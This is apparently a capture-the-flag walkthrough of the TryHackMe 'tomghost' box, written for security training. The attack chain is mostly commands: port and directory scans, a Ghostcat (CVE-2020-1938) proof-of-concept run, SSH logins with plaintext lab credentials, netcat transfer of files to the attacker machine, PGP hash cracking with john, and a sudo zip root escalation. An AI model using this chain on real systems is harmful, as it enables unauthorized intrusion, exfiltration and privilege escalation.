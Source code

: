 # tomghost

### Initial Scan <a href="#initial-scan" id="initial-scan"></a>

**Kali**

```
nmap -A $VICTIM
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### Scan all ports <a href="#scan-all-ports" id="scan-all-ports"></a>

**Kali**

```
nmap -sV -sT -O -p 1-65535 $VICTIM
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## **Initial Access**

**Victim**

```
git clone https://github.com/Hancheng-Lei/Hacking-Vulnerability-CVE-2020-1938-Ghostcat.git 
cd Hacking-Vulnerability-CVE-2020-1938-Ghostcat/
python2 CVE-2020-1938.py $VICTIM -p 8009 -f WEB-INF/web.xml
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh skyfuck@$VICTIM
Password: 8730281lkjlkjdqlksalks
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



### Netcat <a href="#netcat" id="netcat"></a>

**Kali(receiving)**

```
nc -l -p 1234 > credential.pgp
nc -l -p 1234 > tryhackme.asc
```

**Victim(sending)**

```
nc -w 3 $KALI 1234 < credential.pgp
nc -w 3 $KALI 1234 < tryhackme.asc
```

**Kali**

```
/opt/john/gpg2john tryhackme.asc > pgp.hash
john pgp.hash --wordlist=/usr/share/wordlists/rockyou.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --import tryhackme.asc 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
gpg --decrypt credential.pgp 
Password: alexandru
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation  <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

### **TCP/22 - SSH** <a href="#tcp-22-ssh" id="tcp-22-ssh"></a>

**Kali**

```
ssh merlin@$VICTIM
Password: asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j
```

**Exploit:** [https://gtfobins.github.io/gtfobins/zip/](https://gtfobins.github.io/gtfobins/zip/)

**Victim**

```
sudo -l
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
